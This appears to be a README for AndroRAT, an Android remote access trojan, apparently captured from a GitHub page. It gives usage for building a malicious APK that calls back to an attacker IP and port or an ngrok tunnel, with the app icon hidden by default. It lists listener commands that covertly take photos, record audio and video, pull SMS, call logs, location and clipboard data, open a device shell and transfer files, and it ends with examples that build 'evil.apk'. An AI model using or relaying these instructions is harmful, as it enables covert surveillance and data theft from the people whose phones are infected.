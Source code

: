 ### `build` mode
```
Usage:
  python3 androRAT.py --build --ngrok [flags]
  Flags:
    -p, --port              Attacker port number (optional by default its set to 8000)
    -o, --output            Name for the apk file (optional by default its set to "karma.apk")
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```
```
Usage:
  python3 androRAT.py --build [flags]
  Flags:
    -i, --ip                Attacker IP address (required)
    -p, --port              Attacker port number (required)
    -o, --output            Name for the apk file (optional)
    -icon, --icon           Visible icon after installing apk (by default set to hidden)
```
Or you can manually build the apk by importing [Android Code](Android_Code) folder to Android Studio and changing the IP address and port number in [config.java](Android_Code/app/src/main/java/com/example/reverseshell2/config.java) file and then you can generate the signed apk from `Android Studio -> Build -> Generate Signed APK(s)`
### `shell` mode
```
Usage:
  python3 androRAT.py --shell [flags]
  Flags:
    -i, --ip                Listner IP address
    -p, --port              Listner port number
```
After running the `shell` mode you will get an interpreter of the device  
Commands which can run on the interpreter
```
    deviceInfo                 --> returns basic info of the device
    camList                    --> returns cameraID  
    takepic [cameraID]         --> Takes picture from camera
    startVideo [cameraID]      --> starts recording the video
    stopVideo                  --> stop recording the video and return the video file
    startAudio                 --> starts recording the audio
    stopAudio                  --> stop recording the audio
    getSMS [inbox|sent]        --> returns inbox sms or sent sms in a file 
    getCallLogs                --> returns call logs in a file
    shell                      --> starts a sh shell of the device
    vibrate [number_of_times]  --> vibrate the device number of time
    getLocation                --> return the current location of the device
    getIP                      --> returns the ip of the device
    getSimDetails              --> returns the details of all sim of the device
    clear                      --> clears the screen
    getClipData                --> return the current saved text from the clipboard
    getMACAddress              --> returns the mac address of the device
    exit                       --> exit the interpreter
```
In the sh shell there are some sub commands
```
    get [full_file_path]        --> donwloads the file to the local machine (file size upto 15mb)
    put [filename]              --> uploads the file to the android device
```
## Examples
* To build the apk using ngrok which will also set the listner:
```python3 androRAT.py --build --ngrok -o evil.apk```
* To build the apk using desired ip and port:
```python3 androRAT.py --build -i 192.169.x.x -p 8000 -o evil.apk```
* To get the interpreter:
```python3 androRAT.py --shell -i 0.0.0.0 -p 8000```
```